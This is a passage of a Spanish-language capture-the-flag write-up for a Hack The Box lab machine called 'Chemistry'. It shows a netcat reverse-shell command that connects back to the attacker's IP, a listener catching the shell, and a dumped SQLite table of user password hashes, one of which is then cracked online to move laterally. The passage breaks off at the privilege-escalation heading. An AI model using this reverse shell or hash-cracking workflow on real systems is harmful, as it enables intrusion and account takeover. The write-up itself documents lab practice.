 En este punto cambiamos `ping 10.10.14.19` por `busybox nc 10.10.14.19 443 -e sh` en el archivo malicioso y nos ponemos en escucha en nuestra máquina con netcat. 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.38] 59338
whoami
app
```

Hemos ganado acceso a la máquina víctima como usuario `app`. Procedemos a realizar el tratamiento de la TTY para tener una Shell plenamente funcional. En el directorio `\home` vemos un usuario `rosa`. Enumerando directorios del usuario `app` localizamos un archivo `database.db` que podría tener información interesante. Nos lo descargamos a nuestra máquina para proceder a examinarlo en detalle.

```bash
❯ sqlite3 database.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
structure  user
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
.
.
. 
```

Conseguimos el hash del usuario `rosa` entre otros.

## Movimiento Lateral

Con la ayuda de [CrackStation](https://crackstation.net/) conseguimos romper el hash y obtener la contraseña del usuario `rosa`. Confirmamos que es correcta la contraseña. la flag de usuario la localizamos en su carpeta personal.

<img src="/assets/HTB/Chemistry/userflag.png">

## Escalada de Privilegios

